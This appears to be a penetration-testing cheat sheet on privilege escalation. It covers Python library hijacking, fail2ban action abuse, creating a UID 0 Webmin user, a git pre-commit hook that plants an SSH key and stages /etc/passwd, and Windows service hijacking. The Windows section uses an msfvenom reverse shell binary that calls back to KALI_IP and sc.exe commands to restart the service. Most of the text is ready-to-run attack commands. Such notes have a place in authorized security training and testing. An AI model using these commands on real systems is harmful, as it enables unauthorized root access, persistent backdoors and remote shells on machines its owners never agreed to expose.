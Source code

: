 ### Library Hijack
[Python lib hijack](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)

Just add the reverse shell python code at the end of the writable library py file


### fail2ban
```bash
# https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49
# modify /etc/fail2ban/action.d/iptables-multiport.conf
# replace the actionban = PAYLOAD #could be anything as long as it helps you PE(reverse shell, suid...)
# could use a script to help you
#!/bin/bash
cp ./iptables-multiport.conf.bak ./iptables-multiport.conf
mv ./iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
sudo /etc/init.d/fail2ban restart
```

### webmin
if you have webmin admin panel login, go into the admin panel
create a new user with any username but User ID 0 & group id 0

### git commit exploit
```
# edit .git/hooks/pre-commit
# Or may use a rev shell command
#!/bin/sh
mkdir -p /home/user/.ssh
print "\n${SSH_PUBLIC_KEY}" >> /home/user/.ssh/authorized_keys
chmod 600 /home/user/.ssh/authorized_keys
```
Then add a file
```
git --work-tree /etc add /etc/passwd
```
Then commit to exploit

### Modifiable service binary & Unquoted Path service
```bash
# Run SharpUp.exe to find if any service binary is writable or any unquoted path service
# If found anything, run msfvenom to create a service binary
msfvenom -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=KALI_PORT EXIT_FUNC=thread -f exe-service -o SERVICE_NAME.exe
```
Transfer the exploit binary to the windows target
```powershell
# For writable binary service
copy SERVICE_NAME.exe C:\PATH\TO\ORIGINAL\SERVICE\BINARY.exe
# For unquoted path, let say the service binary is in 
# C:\Program Files\A Subfolder\B Subfolder\C Subfolder
# while we can write to "A subfolder" directory
copy SERVICE_NAME.exe "C:\Program Files\A Subfolder\B.exe"
# Restart service
sc.exe stop SERVICE_NAME
sc.exe start SERVICE_NAME
```
